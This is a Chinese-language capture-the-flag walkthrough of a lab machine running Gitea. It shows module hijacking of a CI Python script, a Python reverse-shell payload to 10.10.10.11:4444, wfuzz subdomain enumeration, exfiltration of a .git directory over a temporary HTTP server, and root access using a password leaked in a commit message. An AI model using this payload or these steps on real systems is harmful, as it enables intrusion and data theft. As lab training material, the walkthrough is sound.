```table-of-contents
```

# 信息收集

基本的主机发现、端口与服务探测、默认脚本扫描

**端口探测**：22，80，3000

使用Nmap进行扫描没有特别重要的利用点，那就先从Web服务入手进行进一步的信息收集

**80端口**：Debian服务部署


**3000端口**：Gitea服务部署


一般而言重点应该放在有具体服务功能的站点上（但未必是忽略其他内容，若简单可大致浏览一下，记住一些细节即可）

那就重点放在3000端口的Gitea服务

从页面源代码这里得到，貌似存在域名设置或已知漏洞利用（Gitea 1.22.1 版本）

接下来的探索操作流程应该是：先设置域名（重新审查是否存在其他明显的可用内容）- 再通过浏览器搜索相关版本漏洞是否可用

**设置域名**：重新扫描了一遍，并未有其他可直接利用点（可以考虑一下是否存在**子域名枚举的可能性**）

**Gitea 1.22.1**：版本不算新，但是Google一下，基本存在的都是**XSS漏洞**（考虑是否需要进行XSS盲打）还有一个**CVE-2025-68944**的权限提升漏洞与访问控制


详细了解了一下该CVE，这貌似并不是直接作用于**Web**的一个漏洞（先放一下吧！）

**整理链**：Gitea功能等详细探测（靶机的Web服务） - 若真走投无路再进行详细的公开漏洞利用


# Web打点

**Gitea**服务的功能基本是完善的，那就尝试注册进行探测





存在一个项目库以及找到了两个可能有用的用户名（利用性可能不大，了解了一下Gitea类型于Github，也就说其实成功登录这两个用户能否直接提权也是未知数，那就先放一下吧！用于无计可施的爆破做收集）





```python
#!/usr/bin/env python3
"""
Product Parser - Market Internal Tool
=====================================
A simple HTML snippet parser used by the dev platform CI.

"""

import sys
import os

_CWD = os.path.dirname(os.path.abspath(__file__)) if "__file__" in dir() else os.getcwd()
sys.path.insert(0, _CWD)

for _item in os.listdir(os.path.dirname(_CWD) if os.path.dirname(_CWD) != _CWD else "."):
    _candidate = os.path.join(os.path.dirname(_CWD), _item)
    if os.path.isdir(_candidate) and _item != os.path.basename(_CWD):
        sys.path.insert(0, _candidate)

HIJACKED = False
try:
    import parseHtml
    HIJACKED = True
    print(f"[+] Loaded parseHtml module from: {parseHtml.__file__}")
    print(f"[+] Calling parseHtml.parse() ...")
    _sample = "<html><head><title>Market Product Page</title></head>" \
              "<body><div class='price'>$42.00</div></body></html>"
    _result = parseHtml.parse(_sample)
    print(f"[+] parseHtml returned: {_result}")

except ImportError:
    print("[!] WARNING: parseHtml module NOT FOUND in workspace.")
    print("[*] Falling back to built-in minimal parser (safe mode)...")
    class _Fallback:
        @staticmethod
        def parse(html):
            import re
            t = re.search(r"<title>(.*?)</title>", html)
            return {"title": t.group(1) if t else "untitled", "source": "fallback"}

    parseHtml = _Fallback()

except Exception as e:
    print(f"[!] parseHtml loaded but errored: {e}")

# ============================================================
# 主业务逻辑（不管有没有 parseHtml，程序继续跑）
# ============================================================
def main():
    print("\n" + "="*50)
    print("  Product Parser CI Job — Market Internal Build")
    print("="*50)
    print(f"[*] CWD: {os.getcwd()}")
    print(f"[*] sys.path prefix: {sys.path[:3]}")
    print()

    products = [
        {"id": 1, "html_snippet": "<div><span class='p'>$10</span></div>"},
        {"id": 2, "html_snippet": "<div><span class='p'>$25</span></div>"},
    ]

    for p in products:
        try:
            parsed = parseHtml.parse(p["html_snippet"])
            print(f"  [#{p['id']}] → {parsed}")
        except Exception as ex:
            print(f"  [#{p['id']}] PARSE ERROR: {ex}")

    print()
    print("[✓] CI job completed successfully.")
    print("[*] Artifacts would be uploaded here in production.")
    print("="*50)

if __name__ == "__main__":
    main()

```

**README.md**：没有内容，只有一个**README**的字样内容

看来得审计一下代码了！！！

## Python代码审计

**思路：代码少可以从头至尾进行审计分析，但是代码逻辑庞大一个一个看太浪费时间了。所以先看一下主要入口点都利用了那些函数进行详细定位分析（注释一定要看一下）**

`主业务逻辑（不管有没有 parseHtml，程序继续跑）`：注释直接挑明了**parseHtml**是可有可无的，但是继续往后走也没有存在漏洞点函数利用等（没要找到上述写**ParseHtml**的实现代码）
---> 那就看一下哪里可能利用了**parseHeml** ---> 往上找发现`import parseHtml`，这是需要导入一个**parseHeml**（源代码没有实现，也就是说可能需要其他用户写或劫持？？？）---> 但是该Python如何实现定位**parseHtml**的？ ---> 继续往上，**os**与**sys**貌似实现了**动态修改 Python 的模块搜索路径**（看样子只需要完成**parseHtml**模块中**恶意代码的实现即可了**）---> 尝试一下创建的用户是否可以创建（**单能创建也不行，需要执行该Python文件的功能才行**。还是说它是自动执行的？？？） 

**逻辑整理**：
- **main.py**缺少**parseHtml**模块的实现：用户可以创建项目以及对应模块内容，写入恶意代码
- **main.py**导入**parseHtml**模块的详细路径确定：**main.py**实现了**动态修改 Python 的模块搜索路径**

**详细构建为：**：
```
/opt/ci/
├── parser/          ← 脚本所在目录
│   └── product_parser.py
├── landing_page/    ← 另一个正常子目录
└── evil/            ← 攻击者可写入（例如通过另一个漏洞或误配置）
    └── parseHtml.py  ← 恶意模块
```

**parseHtml.py**
```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.11",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

**尝试创建parseHtml，等待一段时间看是否自动执行**：等了10多分钟，看来是不行（还是想简单了，其实这个可能性本就不打）

那么接下来就是想办法触发**main.py**了

## 子域名&目录枚举

**目录枚举**：没有找到其他可用的目录（主要聚焦于触发python代码的功能）
**子域名枚举**：
`wfuzz -w /usr/share/wordlists/dnsmap.txt   -u market.dsz -H 'Host: FUZZ.market.dsz' --hh 10703`

```bash
─$ wfuzz -w /usr/share/wordlists/dnsmap.txt   -u market.dsz -H 'Host: FUZZ.market.dsz' --hh 10703
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://market.dsz/
Total requests: 17576

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                    
=====================================================================

000002154:   200        169 L    409 W      4269 Ch     "dev" 
```

添加子域名到hosts文件

看来这里就是触发Python代码的地方了


成功反弹Shell，Web网站打点完成！！！

**User_Flag**：
```bash
cat /home/myq/user.txt
flag{user-370e21075ff14b9ab9fe70cf1b8c576c}
```

# 提权枚举&横向移动

枚举了基本的信息，并没有找到常规可利用的点（直接利用进行自带服务进行枚举暂时是不可行的）

至于横向移动，也搜索了一些可能带有凭证的文件等，暂时没有发现（知识浅层尝试，至于是否更加深入还待权衡）

先查看一些www-data、opt等这些目录是否有其他可用的内容吧！！！


逐步回溯目录层级，发现有一个 **hi文件** 与 **.git目录**
**hi文件** 内容不多可以直接看一下；由于该服务类似**Github**可能在 **.git** 中有重要的信息泄露
（大致的思路就是这样的）


**hi文件**没有有价值的内容；**.git**内容很多（那就尝试拉取到本地进行查看）

## 拉取 .git

```bash
Market：
tar -czf /tmp/git_dump.tar.gz .git
cd /tmp/git_dump.tar.gz
python3 -m http.server 8181

kali:
wget http://Market_IP:8181/git_dump.tar.gz
tar -zxvf git_dump.tar.gz
```



这里就直接给出了**root**的密码！！！

## 提权

那就直接尝试提权吧！！！


获得**Root_Flag**：flag{root-234598edcb14f0861baa4edce7e97b7f}

# 小结

该靶机的整体难度其实不大，主要困难的点在于Web端的**Python审计**以及是否能想到提权是查看 **.git** 下的内容

整理一下攻击链：
```攻击链
基本信息收集（主机发现、端口与服务探测、默认脚本扫描）
	|
Web服务端的信息收集（80端口与3000段）
	|
得到域名设置名
	|
对Gitea服务的功能利用以及Python代码的审计
	|
构建恶意代码利用（用于反弹Shell）
	|
找到触发Python代码的立足点（子域名枚举）
	|
提权枚举&权限横移（这里是www-data权限，两者都可能有涉及到，没有什么谁先谁后，更多的是权衡优先级进行）
	|
发现.git并进行拉取（靶机其实可以不用拉取到本地，而实战中得尽量减少暴露风险）
	|
通过COMMIT_EDITMSG得到了Root的密码
```

